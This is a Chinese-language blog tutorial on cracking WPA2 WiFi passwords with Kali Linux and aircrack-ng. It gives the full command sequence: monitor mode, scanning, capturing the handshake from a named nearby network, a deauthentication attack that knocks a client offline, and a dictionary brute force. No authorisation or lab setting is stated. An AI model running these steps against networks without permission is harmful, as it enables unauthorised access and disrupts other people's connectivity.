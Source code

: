 ```yaml
---
layout: post
title: 利用kali破解WIFI密码
date: 2020-06-26 
tag: 网络安全
typora-root-url: ..
---
```


本文讲述如何利用**kali**机 **aircrack-ng**相关命令，抓取**wifi**连接握手包。然后结合密码字典，破解wifi账号密码。

### aircrack-ng简介

Aircrack-ng是一个与802.11标准的无线网络分析有关的安全软件，主要功能有：网络侦测，数据包嗅探，WEP和WPA/WPA2-PSK破解。Aircrack-ng可以工作在任何支持监听模式的无线网卡上（设备列表请参阅其官方网站）并嗅探802.11a，802.11b，802.11g的数据。



### 工具准备

kali攻击机、USB无线网卡，如Ralink 802.11n。



### WIFI破解过程

整个wifi破解过程，包括三个步骤：

1. WIFI信息收集
2. WIFI连接握手包抓取
3. 利用密码字典暴力跑包

```mermaid
graph LR
one[WIFI信息收集]
two[WIFI握手包抓取]
three[暴力跑包]
one --> two
two --> three
```



### WIFI信息收集

- 使用命令列举网卡信息，查找无线网卡名称：`airmon-ng`

  ```python
  root@kali:~# airmon-ng
  ```

  ![image-20200627114604026](/images/posts/2020-06-26-Kali+Airmon+WiFi破解.assets/image-20200627114604026.png)

  发现无线网卡`wlan0`。

- 开启无线网卡监听模式：`airmon-ng start <无线网卡名称>`

  ```python
  root@kali:~# airmon-ng start wlan0
  ```

  ![image-20200627114757107](/images/posts/2020-06-26-Kali+Airmon+WiFi破解.assets/image-20200627114757107.png)

- 查看无线网卡监听模式是否打开：`iwconfig`

  ```python
  root@kali:~# iwconfig
  ```

![image-20200627114835453](/images/posts/2020-06-26-Kali+Airmon+WiFi破解.assets/image-20200627114835453.png)

无线网卡`wlan0`处于监听模式，名称为`wlan0mon`

- 扫描附件wifi热点信息：`airodump-ng <处于监听模式的网卡名称>`

  ```python
  root@kali:~# airodump-ng wlan0mon
  ```

  ![image-20200627121014720](/images/posts/2020-06-26-Kali+Airmon+WiFi破解.assets/image-20200627121014720.png)

输出的两个列表不停的刷新显示。第一个列表表示扫描到的无线网络 AP 信息：**BSSID**: 无线 AP 的硬件地址；**PWR**: 信号强度，值是负数，绝对值越小表示信号越强；**Beacons**：无线AP发出的通告编号；**\#Data**：被捕获到的数据分组的数量（一般数据量越大，抓取握手包更容易）；**\#/s**：过去10秒钟内每秒捕获数据分组的数量；**MB**：无线AP所支持的最大速率；**CH**: 无线网络信道；**ENC**: 加密方式，要破解的是 WPA2；**CIPHER**：加密算法；
**AUTH**：使用的认证协议；**ESSID**: 无线网络的名称。第二个列表表示某个无线网络中和用户设备的连接信息：**BSSID**: 无线 AP 的硬件地址；**STATION**: 用户设备的硬件地址。

通过扫描结果发现存在wifi信号**ChinaNet-LRRv**，其硬件地址为`80:xx:xx:xx:xx:28`。并且存在客户端连接至该wifi，该客户端硬件地址为`18:yy:yy:yy:yy:28`。



### 握手包抓取

- 抓取握手包：`airodump-ng -c <CH> --bssid <BSSID> -w <要保存握手包的目录> <处于监听模式的网卡名称>`

```python
root@kali:~# airodump-ng -c 1 --bssid 80:xx:xx:xx:xx:28 -w /home/ChinaNet-LRRv wlan0mon
```

抓包界面如下图所示：

![image-20200627122939950](/images/posts/2020-06-26-Kali+Airmon+WiFi破解.assets/image-20200627122939950.png)

要抓握手包，需要客户端在wifi重新认证连接的情况下才能抓到。可使用下列命令让客户端下线，以便客户端重新连接。

- 发送反认证包，让客户端下线。客户端重新连接，便于抓取握手包：`aireplay-ng -0 <发送反认证包的个数> -a <BSSID> -c <强制下线的MAC地址（STATION下面的地址）> 无线网卡名称`

**-0**：采用Deauth攻击模式，后面紧跟攻击次数，这里设置为20，大家可以根据实际情况设置；**-a**：后面跟AP的mac地址；**-c**：后面跟客户端的mac地址。

```python
root@kali:~# aireplay-ng -0 20 -a 80:xx:xx:xx:xx:28 -c 18:yy:yy:yy:yy:40 wlan0mon
```

![image-20200627123413452](/images/posts/2020-06-26-Kali+Airmon+WiFi破解.assets/image-20200627123413452.png)

如此，`18:yy:yy:yy:yy:40`被强制下线。

- 当客户端再次连接wifi时，抓取`80:xx:xx:xx:xx:28` 与 `18:yy:yy:yy:yy:40`间连接的握手包：

![image-20200627123657326](/images/posts/2020-06-26-Kali+Airmon+WiFi破解.assets/image-20200627123657326.png)

抓到握手包之后，`Ctrl+C`停止抓包。查看对应目录下的包含握手信息的包：

![image-20200627123908530](/images/posts/2020-06-26-Kali+Airmon+WiFi破解.assets/image-20200627123908530.png)



### WIFI密码破解

- 结合密码字典，使用aircrack-ng进行破解：`aircrack-ng -w <本地的字典文件> <握手包>`


```python
root@kali:~# aircrack-ng -w /home/common.txt /home/ChinaNet-LRRV-01.cap 
```

出现**KEY FOUND**，则表示破解成功，括号中字符串即为密码。

![image-20200627124422162](/images/posts/2020-06-26-Kali+Airmon+WiFi破解.assets/image-20200627124422162.png)

- 无线网卡退出监听模式：`airmon-ng stop <处于监听模式的无限网卡名称>`

```python
root@kali:~# airmon-ng stop wlan0mon
```

![image-20200627124637471](/images/posts/2020-06-26-Kali+Airmon+WiFi破解.assets/image-20200627124637471.png)



### FAQ

实操过程中，可能出现：

- 扫描wifi过程中，无法收集到wifi信息
- 抓包中出现：fixed channel wlan0mon xx

注意：拔掉无线网卡重新插入，或者重启虚拟机。

### 参考链接

- [https://github.com/conwnet/wpa-dictionary](https://github.com/conwnet/wpa-dictionary)
- [https://www.cnblogs.com/zgang/p/11562012.html](https://www.cnblogs.com/zgang/p/11562012.html)



